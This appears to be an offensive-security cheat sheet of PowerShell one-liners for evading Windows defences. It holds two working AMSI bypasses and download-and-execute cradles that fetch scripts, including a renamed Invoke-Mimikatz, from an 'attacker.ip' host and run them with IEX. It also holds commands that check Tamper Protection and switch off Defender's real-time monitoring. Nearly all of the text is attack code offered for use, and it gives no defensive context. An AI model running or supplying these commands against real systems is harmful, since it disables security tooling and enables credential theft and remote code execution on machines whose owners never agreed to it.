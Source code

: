 
- Bypass AMSI with powershell (*Note* probably Win10 only)
```powershell
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
```

- Win10 Bypass AMSI through amsiInitFailed (does not work on Win11 as far as I can tell)
	- Error on Win11 `MethodInvocationException: Exception calling "SetValue" with "2" argument(s): "Cannot set initonly static field 's_amsiInitFailed' after type 'System.Management.Automation.AmsiUtils' is initialized."`
	- TODO: research this more
```powershell
$a=[Ref].Assembly.GetTypes()
Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}}
$d=$c.GetFields('NonPublic,Static')
Foreach($e in $d) {if ($e.Name -like "*ms*nit*ai*") {$f=$e}}
$g=$f.SetValue($null,$true)
```


### Bypassing AMSI to execute malicious scripts 

- ASMI Bypass Powershell code with inspiration from (https://medium.com/@sam.rothlisberger/amsi-bypass-memory-patch-technique-in-2024-f5560022752b)
	- use ASBB.ps1 as a base
	- If downloading scripts that will be flagged by AMSI, rename them
	- add download code for these scripts at the end of ASBB.ps1
	- example for `Invoke-Mimikatz.ps1` which is renamed to `IM.ps1`
```powershell
(New-Object System.Net.WebClient).DownloadString(‘http://attacker.ip/IM.ps1') | IEX
```
- Download example
```powershell
iex -Debug -Verbose -ErrorVariable $e -InformationAction Ignore -WarningAction Inquire “iex(New-Object System.Net.WebClient).DownloadString(‘http://attacker.ip/ASBB.ps1')”
```

- Tamper Protection status:
	- If the output is `False`, Tamper Protection is enabled.
	-  If the output is `True`, Tamper Protection is disabled.
```powershell
(Get-MpPreference).DisableTamperProtection
```

- Disable Defender if Tamper Protection is off
```powershell
Set-MpPreference -DisableIntrusionPreventionSystem $true -DisableIOAVProtection $true -DisableRealtimeMonitoring $true
```

- Download and execute Powershell script

```powershell
 iex (New-Object Net.WebClient).DownloadString('http://ipaddress/script.ps1')
```

```powershell
Invoke-Expression -Command (Invoke-WebRequest -Uri 'http://ipaddress/script.ps1').Content
```

- View Applocker Policy
```powershell
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```
